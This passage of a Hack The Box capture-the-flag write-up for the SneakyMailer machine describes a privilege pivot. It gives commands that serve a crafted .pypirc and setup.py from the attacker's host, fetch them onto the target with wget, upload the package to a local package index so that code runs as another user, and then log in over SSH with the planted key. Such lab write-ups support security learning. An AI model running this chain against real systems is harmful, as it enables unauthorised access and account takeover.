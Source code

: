 ### Create the package
`.pypirc` File:  
![Pypirc](../images/HTB-SneakyMAiler/Pivot_Pypirc.png)

`setup.py` File:  
![Setup.py](../images/HTB-SneakyMAiler/Pivot_Setup.png)

### Install the package
Host the package files on our local machine.  
`>> python -m SimpleHTTPServer`

Upload the files to the sneakymailer server.  
`>> wget 10.10.14.39:8000/.pypirc; chmod 600 .pypirc; wget 10.10.14.39:8000/setup.py`

Register the package on the server.  
`>> HOME=$(pwd); python3 setup.py sdist register -r local upload -r local`

### Authenticate with compromised account
Using the uploaded key, we should be able to SSH into the low account.  
`>> ssh -i key low@10.10.10.197`  